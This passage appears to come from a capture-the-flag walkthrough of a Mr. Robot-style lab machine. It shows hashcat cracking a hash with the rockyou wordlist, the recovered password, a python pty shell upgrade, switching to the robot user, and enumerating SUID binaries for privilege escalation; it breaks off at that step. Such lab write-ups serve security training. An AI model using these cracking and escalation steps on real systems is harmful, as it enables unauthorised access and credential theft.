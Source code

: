 ```
Time.Started.....: Wed Jan 19 18:20:26 2022 (2 secs)
Time.Estimated...: Wed Jan 19 18:20:28 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    89644 H/s (0.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1

```
I think even crackstation could find it!

`robot:abcdefghijklmnopqrstuvwxyz`

Now switch to robot and get that 2nd key

```
$ su robot
su: must be run from a terminal
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
cat key-2-of-3.txt
...
```

## privilege escalation

First step failed

```
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux

```
Second step great success

```
find / -perm -u=s -type f 2>/dev/null
 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```